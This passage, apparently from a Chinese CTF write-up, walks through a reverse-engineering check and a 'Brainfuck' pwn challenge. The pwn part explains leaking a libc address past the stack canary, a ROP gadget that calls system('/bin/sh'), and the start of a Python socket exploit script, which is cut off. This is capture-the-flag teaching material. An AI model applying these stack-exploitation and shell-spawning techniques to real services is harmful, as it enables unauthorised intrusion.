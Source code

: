         dword_4191D4 = dword_4191C8;

        dword_4191C8 = v10;

        v11 = dword_4191D0;

        dword_4191D0 = dword_4191EC;

        v12 = 0;

        dword_4191EC = v11;

这里交换了一些输入的字节。

最后与415600处的DWORD数组进行了比较。      <br>

```
if ( dword_415600[v12] != dword_4191C0[v12] )
          `{`
            MessageBoxW(0, L"Try Again", L"Fail", 0);
            exit(-1);
          `}`
```

为了方便调试,可以把这里的exit(-1);改成goto LABEL_28;即jmp short loc_401A50

**<br>**

**PWN**

**Brainfuck**

        向pwn2输入的brainfuck代码会被翻译成c代码然后编译,后来更新题目后缓冲区放到了栈上,降低了难道。

        由于brainfuck代码长度有限制,所以我们不能直接通过&gt;移动到rbp。



```
while(*p)`{`
p ++;
*p = getchar();
`}`
```

        以x00为结束标志。在缓冲区最后一个字节填充x00,前面填充任意字节。然后还要&gt;跳过8字节rbp,再&gt;跳过8字节的canary。然后putchar 输出ret地址。

        main会返回到__libc_start_main,因此我们可以在[rbp]处leak处__libc_start_main的地址。在我的机器上是在__libc_start_main+240,在远程服务器上尝试出来是__libc_start_main+245。由于leak地址的时候是按字节输出的,可能输出地址高位的时候,已经被进了位,不过可能性较小,可以忽略。

        根据libc.so.64计算处system和/bin/sh的VA。现在需要把/bin/sh的地址写进rdi。找到一个gadget。pop rax;pop rdi;call rax

        返回gadget,然后system放到栈后面,接着是/bin/sh。

        然后发送cat flag



```
import socket
import struct
from time import sleep
def translate(a):
    s = 0L
    for i in range(8):
        x = ord(a[i])
        if s + i &gt;= (0x100L&lt;&lt;(i*8)):
            x = x - 1
        s = (((1L * x)&lt;&lt;(i*8)) | s)
    return s
sock = socket.socket( socket.AF_INET,socket.SOCK_STREAM)
def rs(s):
    print sock.recv(1024)
    print s
    sock.send(s)
local = False
```